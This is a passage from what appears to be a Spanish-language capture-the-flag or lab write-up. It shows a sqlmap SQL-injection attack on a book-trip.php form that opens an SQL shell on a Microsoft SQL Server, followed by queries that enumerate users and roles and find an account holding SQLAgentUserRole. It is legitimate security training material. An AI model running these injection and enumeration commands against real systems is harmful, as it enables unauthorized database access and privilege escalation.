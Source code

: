```bash
❯ sqlmap --batch --url http://10.13.38.20/book-trip.php --data "destination=test" --sql-shell
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[18:19:09] [INFO] resuming back-end DBMS 'microsoft sql server' 
[18:19:09] [INFO] testing connection to the target URL
[18:19:10] [INFO] the back-end DBMS is Microsoft SQL Server
[18:19:10] [INFO] calling Microsoft SQL Server shell. To quit type 'x' or 'q' and press ENTER  
sql-shell> select suser_name();
[18:22:19] [INFO] fetching SQL SELECT statement query output: 'select suser_name()'
[18:22:20] [INFO] retrieved: 'daedalus'
select suser_name(): 'daedalus'
sql-shell> host_name();
[18:25:12] [INFO] fetching SQL query output: 'host_name()'
[18:25:12] [INFO] retrieved: 'WEB01'
host_name(): 'WEB01'
sql-shell>
```

Después de crear la tabla "roles" con las columnas "username" y "rolename", procedimos a ingresar los nombres y roles de los miembros de la base de datos, siguiendo la documentación relevante. Una vez completada esta tarea, realizamos un volcado de la tabla "roles" para examinar la información obtenida.

Durante la inspección de los datos, identificamos a "daedalus_admin" con el rol "SQLAgentUserRole". Según la documentación pertinente, este rol confiere al usuario la capacidad de crear y ejecutar trabajos dentro del sistema.

```sql
sql-shell> create table roles ([username] sysname, [rolename] sysname)
[14:35:33] [INFO] executing SQL data definition statement: 'create table roles ([username] sysname, [rolename] sysname)'
create table roles ([username] sysname, [rolename] sysname): 'NULL'
sql-shell> insert into roles (username, rolename) select isnull (dp1.name, 'no members') as databaseusername, dp2.name as databaserolename from msdb.sys.database_role_members as drm left outer join msdb.sys.database_principals as dp1 on drm.member_principal_id = dp1.principal_id right outer join msdb.sys.database_principals as dp2 on drm.role_principal_id = dp2.principal_id where dp2.type = 'r' order by dp1.name
[14:35:34] [INFO] executing SQL data manipulation statement: 'insert into roles (username, rolename) select isnull (dp1.name, 'no members') as databaseusername, dp2.name as databaserolename from msdb.sys.database_role_members as drm left outer join msdb.sys.database_principals as dp1 on drm.member_principal_id = dp1.principal_id right outer join msdb.sys.database_principals as dp2 on drm.role_principal_id = dp2.principal_id where dp2.type = 'r' order by dp1.name'  
insert into roles (username, rolename) select isnull (dp1.name, 'no members') as databaseusername, dp2.name as databaserolename from msdb.sys.database_role_members as drm left outer join msdb.sys.database_principals as dp1 on drm.member_principal_id = dp1.principal_id right outer join msdb.sys.database_principals as dp2 on drm.role_principal_id = dp2.principal_id where dp2.type = 'r' order by dp1.name: 'NULL'
sql-s
```
